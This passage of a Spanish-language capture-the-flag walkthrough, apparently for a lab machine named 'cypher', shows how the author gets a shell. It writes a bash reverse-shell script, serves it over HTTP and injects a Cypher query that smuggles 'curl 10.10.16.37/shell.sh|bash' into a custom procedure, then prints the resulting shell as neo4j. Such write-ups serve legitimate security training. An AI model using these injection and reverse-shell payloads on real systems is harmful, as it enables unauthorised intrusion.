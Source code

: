 El siguiente paso, será lograr obtener una Reverse Shell para así disponer de acceso al sistema. Para ello, crearemos un script en `Bash` que realice esta Reverse Shell, el script lo compartiremos a través de un servidor web.

```bash
❯ echo '#!/bin/bash \n/bin/bash -c "bash -i >& /dev/tcp/10.10.16.37/443 0>&1"' > shell.sh

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Por otro lado, nos pondremos en escucha con `nc` para poder recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Desde `BurpSuite` inyectamos el siguiente código para explotar la vulnerabilidad de `Cypher Injection` en combinación con el procedimiento vulnerable. El código que ejecutaremos es `curl 10.10.16.37/shell.sh|bash` con el cual realizará una petición hacía nuestro script y lo ejecutará en una `bash`.

```cypher
' return h.value as a UNION CALL custom.getUrlStatusCode(\"google.com;curl 10.10.16.37/shell.sh|bash;#\") YIELD statusCode AS a RETURN a;//
```

<figure><img src="../../.gitbook/assets/5338_vmware_id1irDwicy.png" alt=""><figcaption></figcaption></figure>

Verificamos que finalmente logramos obtener acceso al sistema como el usuario `neo4j`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.37] from (UNKNOWN) [10.129.111.76] 33758
bash: cannot set terminal process group (1410): Inappropriate ioctl for device
bash: no job control in this shell
neo4j@cypher:/$ 
```
